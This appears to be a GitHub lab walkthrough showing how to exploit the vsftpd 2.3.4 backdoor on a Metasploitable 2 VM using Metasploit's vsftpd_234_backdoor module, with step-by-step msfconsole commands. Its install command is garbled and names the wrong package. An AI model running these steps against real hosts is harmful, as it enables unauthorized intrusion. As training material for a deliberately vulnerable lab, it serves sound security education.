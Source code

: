 # vsftpd 2.3.4

## Using Metasploit

<p align="center">
  <img alt="msfConsole" src="https://help.rapid7.com/metasploit/Content/images/icons/favicon.ico" height="140" />

Firstly, install metasploit if not installed using below command.
<p align="center"><i>
  pt-get install vsftpd
  </i></p>
<b>Step-00</b> <p>Now start with starting the msfconsole with <i><b>msfconsole</i> command.</b></i></p>
<b>Step-01</b> Once loaded give the command, <i><b>search vsftpd 2.3.4</b></i>
<p align="center"><img alt="search vsftpd 2.3.4" src="https://westoahu.hawaii.edu/cyber/wp-content/uploads/2019/04/word-image-1.png"></p>
<b>Step-02</b> Using the desired exploit in this case select said exploit with command, <i><b>use exploit/unix/ftp/vsftpd_234_backdoor</b></i>
<p align="center"><img alt="use exploit" src="https://westoahu.hawaii.edu/cyber/wp-content/uploads/2019/04/word-image-2.png">
</br><i>In some updated versions of msfconsole, a numeric choice is associated with the options. With that there is no need to enter complete command, just enter the number associated with that command. In that case choose the desired number.</i></p>
<b>Step-03</b> The command, info, will provide intel on the exploit. Run the command, <b><i>show options</i></b>, to see what is missing from running this exploit.
<p align="center"><img alt="show options" src="https://westoahu.hawaii.edu/cyber/wp-content/uploads/2019/04/word-image-3.png"></p>
<b>Step-04</b> Using the IP address logged earlier from the Metasploitable 2 VM, run the command, <b><i>set rhosts “IP address from Metasploitable 2”</i></b>
<p align="center"><img alt="set rhosts" src="https://westoahu.hawaii.edu/cyber/wp-content/uploads/2019/04/word-image-4.png"></p>
<b>Step-04</b> Run the show options command to make sure the IP matches the Metasploitable 2 VM. If so, run the command <i><b>run</i></b>
<p align="center"><img alt="run" src="https://westoahu.hawaii.edu/cyber/wp-content/uploads/2019/04/word-image-5.png"></p>

**Note**
</br>While exploiting this box with Metasploit was easy, it took away the core aspect of exploitation. In other words, using Metasploit only teaches you how to input data and press the right settings to exploit; a script kiddie. Like all tools it is important to understand what is happening before using an automated system.
